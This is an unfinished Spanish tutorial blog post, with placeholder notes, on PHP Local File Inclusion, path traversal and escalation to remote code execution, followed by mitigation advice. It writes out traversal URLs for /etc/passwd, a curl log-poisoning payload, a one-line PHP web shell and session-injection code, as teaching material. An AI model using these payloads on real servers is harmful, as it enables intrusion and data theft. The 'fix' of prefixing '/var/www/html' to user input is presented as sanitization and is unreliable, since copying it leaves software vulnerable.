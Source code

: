 ```yaml
---
title: ""
summary: ""
date: 2025-04-06
tags:
  - Seguridad Web
  - Path Traversal
  - Local File Inclusion
lang: es
---
```


# Title

<!-- more -->

# ¿Qué es Local File Inclusion (LFI)?

La vulnerabilidad de **Local File Inclusion** ocurre cuando el servidor incluye archivos locales basándose en entradas proporcionadas por el usuario. Esto puede llevar a la ejecución de código malicioso o la exposición de información confidencial.

## Impacto de las LFI

Las vulnerabilidades de LFI pueden causar graves problemas de seguridad en un servidor web, entre ellos:

- **Acceso no autorizado a archivos sensibles**: Permite a un atacante leer archivos de configuración y credenciales almacenadas en el sistema.
- **Ejecución de código malicioso**: Si el atacante puede incluir archivos con contenido PHP, podría ejecutar código arbitrario en el servidor.
- **Escalada de privilegios**: Un atacante podría combinar LFI con otras vulnerabilidades para obtener acceso privilegiado en el sistema.
- **Robo de información**: Exponer archivos con datos de usuarios o configuraciones del sistema puede comprometer la seguridad de la aplicación.
- **Defacement y ataques persistentes**: Si el atacante consigue modificar archivos del sistema, podría inyectar contenido malicioso en la página web o mantener un acceso persistente al servidor.

### LFI Básico

Como hemos comentado en la introducción, este tipo de vulnerabilidades se aprovechan de que el input del usuario no está sanitizado correctamente y, por ende, el atacante puede realizar una serie de modificaciones que pueden alterar el funcionamiento de la aplicación web.

Imaginemos que estamos ante una aplicación web desarrollada en _PHP_:

<figure markdown="span">
    ![LFI básico](../../assets/posts/2025/04/06/LFIWP.png)
  <figcaption>Aplicación Web.</figcaption>
</figure>

Vemos que tenemos una barra de búsqueda donde podemos buscar cualquier archivo. Es decir, la aplicación web estaría haciendo uso de un código similar a este:

```php
<?php
  $file = $_GET['file'];
  if (isset($file)) {
      include($file);
  }
?>
```

Este sencillo código espera un parámetro `file` que contendrá el archivo que le pasamos al formulario de búsqueda de la página web. Por tanto, si ponemos en el formulario un archivo como `hi.php`, la variable contendrá dicha cadena que hará referencia al fichero `hi.php` contenido en el mismo directorio que el archivo de la aplicación web.

Si realizamos dicha búsqueda, la URL de nuestra web cambiará a la siguiente:

```url
http://dominio.com/pruebas/index.php?archivo=hi.php
```
<figure markdown="span">
    ![Resultado de aplicar LFI básico](../../assets/posts/2025/04/06/BasicLFI.png)
  <figcaption>Resultado de aplicar LFI básico.</figcaption>
</figure>


Vamos a ir un paso más allá e intentar acceder al archivo que contiene la configuración de los usuarios en los sistemas Linux, si el fichero `/etc/passwd`. Como el input del parámetro `file` no está sanitizado, el atacante podría escribir lo siguiente en la URL de la aplicación web:

```url
http://dominio.com/pruebas/index.php?archivo=/etc/passwd
```

<figure markdown="span">
    ![Accesso al fichero /etc/passwd](../../assets/posts/2025/04/06/BasicLFI2.png)
  <figcaption>Acceso al fichero /etc/passwd.</figcaption>
</figure>


Esto es un error enorme de seguridad, ya que el atacante podría obtener información privilegiada sobre los usuarios que existen en el sistema o tener acceso a otros recursos como:

**Archivos de configuración y credenciales**:

  - `/etc/passwd` → Lista de usuarios del sistema (Linux).
  - `/etc/shadow` → Contraseñas encriptadas (requiere privilegios).
  - `/etc/hosts` → Configuración de nombres de dominio locales.
  - `/etc/mysql/my.cnf` → Configuración de MySQL (puede contener credenciales).

**Archivos de logs (pueden contener información sensible o shell injection)**:

  - `/var/log/apache2/access.log` o `error.log` → Logs de Apache.
  - `/var/log/nginx/access.log` → Logs de Nginx.
  - `/var/log/auth.log` o `/var/log/secure` → Registros de autenticación.

Ante esto, podríamos realizar una sanitización del input que recibe el parámetro `file`:

```php
<?php
  $file = $_GET['file'];
  if (isset($file)) {
      include("/var/www/html" . $file);
  }
?>
```

<figure markdown="span">
    ![Acceso al fichero /etc/passwd restringido](../../assets/posts/2025/04/06/BasicLFIFix.png)
  <figcaption>Acceso al fichero /etc/passwd restringido.</figcaption>
</figure>


Finalmente, vemos que el acceso a los ficheros que no están contenidos en la ruta `/var/www/html` está restringido, aumentando la seguridad en nuestro servidor de cara al acceso de archivos por parte de agentes externos.

### LFI con Path Traversal

Ahora, estamos ante una aplicación web más robusta, es decir, que el **LFI básico** no funcionará, ya que la web contiene este código:

```php
<?php
  $file = $_GET['file'];
  if (isset($file)) {
      include("/var/www/html". $file);
  }
?>
```

Esta protección nos priva de acceder a cualquier archivo contenido en el servidor (siempre y cuando los permisos del mismo nos permitan acceder a él). Sin embargo, esta protección puede ser eludida haciendo uso de una técnica llamada **Path Traversal**, pero ¿qué es el Path Traversal?

El **Path Traversal**, también conocido como **Directory Traversal**, es una técnica utilizada para acceder a archivos y directorios fuera del directorio permitido por la aplicación web. Esto se logra utilizando secuencias como `../` para moverse a niveles superiores del sistema de archivos.

Si una aplicación tiene un filtro parcial que solo restringe archivos en su directorio de trabajo, se puede usar Path Traversal junto con LFI para acceder a archivos del sistema. Por ejemplo:

```url
https://dominio.com/pruebas/index.php?file=../../../../../../../../../../../etc/passwd
```
<figure markdown="span">
    ![Acceso al fichero /etc/passwd del servidor](../../assets/posts/2025/04/06/PTLFI.png)
  <figcaption>Acceso al archivo /etc/passwd del servidor.</figcaption>
</figure>

Este tipo de ataque es particularmente peligroso cuando se combina con LFI, ya que puede permitir a un atacante acceder a archivos críticos del sistema, incluyendo configuraciones, credenciales y registros de actividad del servidor. Además, una práctica común es escalar este tipo de ataques a una ejecución remota de comandos, ya sea realizando un ataque de `LogPoisoning` o incluyendo una `Web Shell` en el servidor.

Vamos a ver más a fondo como podemos escalar de un **Local File Inclusion** a una **Ejecución Remota de Comandos**

### De LFI a RCE (Remote Code Execution)

La transición de una vulnerabilidad de **Local File Inclusion (LFI)** a una **Remote Code Execution (RCE)** es una técnica avanzada que los atacantes pueden emplear para comprometer completamente un sistema. A continuación, se explican los métodos más comunes para lograr esta escalada:

#### Inclusión de archivos de registro con inyección de código
Si el servidor web registra las solicitudes en archivos de log accesibles, un atacante puede inyectar código malicioso en dichos registros y luego incluirlos mediante LFI. Por ejemplo:

1. El atacante envía una solicitud maliciosa que inyecta código PHP en los logs del servidor:
  ```bash
  curl -A "<?php system('whoami'); ?>" http://dominio.com
  ```
  Aquí, el código PHP se inyecta en el archivo de logs del servidor web (por ejemplo, `/var/log/apache2/access.log`).

2. Luego, utiliza LFI para incluir el archivo de log:
  ```url
  http://dominio.com/pruebas/index.php?file=../../../../../../var/log/apache2/access.log
  ```
  Esto ejecutará el código PHP inyectado, permitiendo al atacante ejecutar comandos en el servidor.

 # PONER FOTO LOG APACHE

<!-- <figure markdown="span">
    ![Acceso al contenido del log del servidor](../../assets/posts/2025/04/06/LFItoRCE1.png)
  <figcaption>Acceso al contenido del log del servidor.</figcaption>
</figure> -->

Como podemos observar al final del log, se refleja que hemos accedido al directorio especificado. Esto significa que el contenido de la variable proporcionada en la URL ha sido procesado por el servidor, permitiendo al atacante visualizar información sensible o ejecutar código malicioso si el archivo incluido contiene instrucciones ejecutables.
<!-- 
#### Inclusión de archivos cargados por el atacante
Si la aplicación permite la carga de archivos, un atacante puede subir un archivo malicioso (por ejemplo, un _web shell_ en PHP) y luego incluirlo mediante LFI:

1. El atacante sube un archivo llamado `shell.php` con el siguiente contenido:
  ```php
  <?php system($_GET['cmd']); ?>
  ```
  Esto hace que al recibir el input del parámetro `cmd` se ejecute la instrucción a nivel de sistema gracias a la función `system()` que nos proporciona *PHP*.

2. Luego, utiliza LFI para incluir el archivo cargado:
  ```url
  http://dominio.com/pruebas/index.php?file=../../<directorio>/shell.php&cmd=whoami
  ```
  Esto ejecutará el comando `whoami` en el servidor.

  # PONER FOTO EJECUCION COMANDO

#### Inclusión de sesiones PHP
Si el servidor utiliza sesiones PHP y almacena los datos de sesión en archivos accesibles, un atacante puede manipular su sesión para inyectar código PHP:

1. El atacante inicia una sesión y modifica su contenido:
  ```php
  <?php
  session_start();
  $_SESSION['malicioso'] = "<?php system('id'); ?>";
  ?>
  ```

2. Luego, utiliza LFI para incluir el archivo de sesión:
  ```url
  http://dominio.com/pruebas/index.php?file=/path/to/sessions/sess_<session_id>
  ```
  Esto ejecutará el código PHP inyectado en la sesión.

#### Inclusión de archivos temporales
En algunos casos, los archivos temporales generados por la aplicación pueden ser manipulados para incluir código malicioso. Por ejemplo, si la aplicación guarda datos de usuario en archivos temporales, un atacante podría inyectar código PHP en dichos datos y luego incluirlos mediante LFI.

### Mitigaciones para prevenir LFI a RCE
Para evitar que una vulnerabilidad de LFI escale a RCE, se deben implementar las siguientes medidas:

1. **Validación estricta de entradas**:
  - Utilizar listas blancas para limitar los archivos que pueden ser incluidos.
  - Rechazar caracteres como `../`, `%00`, y otros que permitan Path Traversal.

2. **Deshabilitar funciones peligrosas**:
  - Configurar `allow_url_include=Off` y `allow_url_fopen=Off` en `php.ini`.
  - Deshabilitar funciones como `system()`, `exec()`, `shell_exec()`, y similares.

3. **Aislar archivos sensibles**:
  - Almacenar archivos de configuración, logs y sesiones fuera del directorio accesible por la aplicación web.

4. **Configurar permisos adecuados**:
  - Restringir los permisos de lectura y escritura en archivos y directorios críticos.

5. **Monitorear y auditar**:
  - Revisar regularmente los logs del servidor para detectar actividades sospechosas.
  - Implementar herramientas de detección de intrusos (IDS) para identificar intentos de explotación.

El paso de LFI a RCE es una de las técnicas más peligrosas en el arsenal de un atacante, pero con las medidas adecuadas, se puede mitigar eficazmente este riesgo.


**Ejemplo de ataque con ejecución de código:**
Si un atacante puede cargar un archivo PHP en un directorio accesible, podría ejecutarlo mediante LFI:

```url
http://dominio.com/pruebas/index.php?file=../../uploads/shell.php
```

Esto permite ejecutar comandos en el servidor, escalando el ataque desde la simple lectura de archivos a la ejecución de código arbitrario, lo que podría comprometer completamente el sistema.

Para prevenir este ataque, se recomienda:
- **Validar y sanitizar la entrada del usuario**, evitando caracteres como `../`.
- **Restringir el acceso a archivos sensibles** mediante listas blancas de archivos permitidos.
- **Deshabilitar la ejecución de archivos remotos** con `allow_url_include=Off` en la configuración de PHP.
- **Configurar permisos adecuados** para evitar que el servidor lea archivos sensibles o ejecute código no autorizado.

El **LFI combinado con Path Traversal** es una vulnerabilidad grave que puede comprometer la seguridad de una aplicación si no se mitiga adecuadamente.

 -->
